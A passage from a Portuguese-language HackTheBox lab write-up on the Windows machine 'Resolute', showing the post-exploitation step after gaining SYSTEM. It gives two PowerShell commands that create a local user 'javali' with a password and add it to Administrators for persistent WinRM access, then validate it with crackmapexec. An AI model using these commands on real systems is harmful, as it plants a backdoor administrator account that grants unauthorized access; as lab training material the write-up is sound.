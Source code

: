 ![Authority system](Assets/HTB-Windows-Medium-Resolute/Authority-system.png)

# We are authority\system

A partir daí, podemos recuperar as flags... Mas antes, apenas para o fun, vamos criar uma certa persistência. Podemos criar um usuário, e adicioná-lo ao grupo de Administradores para poder entrar sempre que quisermos via WinRM.

```powershell
net user javali J4v4li123! /add
net localgroup Administrators javali /add
```
Vamos validar com crackmapexec, e tentar entrar via WinRM

![Authority javali](Assets/HTB-Windows-Medium-Resolute/Authority_javali.png)
